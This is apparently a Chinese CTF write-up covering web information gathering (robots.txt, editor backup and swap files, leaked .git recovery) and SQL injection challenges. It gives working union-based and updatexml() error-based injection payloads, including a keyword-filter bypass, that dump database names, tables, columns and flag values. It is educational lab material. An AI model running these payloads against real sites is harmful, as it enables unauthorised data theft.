[toc]

# 0x01 [信息搜集]

## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：


发现index.php~，得到第二部部分flag: s_v3ry_im


发现.index.php.swp，下载后通过命令还原


```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```


## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件




访问index.html，得到flag



# 0X02 [SQL注入]

## SQL注入-1

尝试`id=1' and 1=2 --+` 页面无显示，`id=1' and 1=1 --+` 返回内容等于`id=1`,应该是字符型注入：




尝试`id=1' and 1=1  order by 4--+` 页面无显示, 返回数据项为3项;

相关playlod如下
```
--爆库名
?id=99' union all select 1,2,database() --+
--爆表
?id=99' union all select 1,2,group_concat(table_name) from  information_schema.tables where table_schema=database() --+
--爆列
?id=99' union all select 1,2,group_concat(column_name) from  information_schema.columns where table_schema=database()  and table_name='fl4g'--+
--爆值
?id=99' union all select 1,2,fllllag from fl4g --+
```

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123



> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入

** 原理:

> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```


